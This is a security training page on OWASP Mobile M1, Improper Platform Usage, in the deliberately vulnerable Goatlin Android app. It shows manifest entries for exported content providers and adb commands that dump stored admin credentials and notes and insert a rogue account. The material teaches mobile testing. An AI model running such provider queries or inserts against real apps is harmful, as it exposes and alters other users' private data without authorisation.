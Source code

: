 M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications._"
Content providers are mostly used to share data between Android applications,
such as activities, services or receivers. Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can allow the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the [Goatlin app][0], we can
see that a Content provider is defined with the name `.AccountProvider` and
the exported tag is set to true. Here is an extract of the `AndroidManifest`
file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.goatlin.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.goatlin.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing a query to the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.goatlin.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing an insertion to add a new account into the
Goatlin app:

```
$ adb shell content insert --uri content://com.cx.goatlin.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.goatlin.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat
```

Below you can see this is action

{% youtube src="https://www.youtube.com/watch?v=U5czs2s8Ifc" %}{% endyoutube %}

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.goatlin.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.goatlin.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.goatlin.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

This issue was fixed on [Goatlin][0]: you can find it on
[feature/m1-improper-platform-usage branch][10].

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm
Interaction][6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[0]: https://github.com/Checkmarx/Goatlin
[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb
[10]: https://github.com/Checkmarx/Goatlin/tree/feature/m1-improper-platform-usage
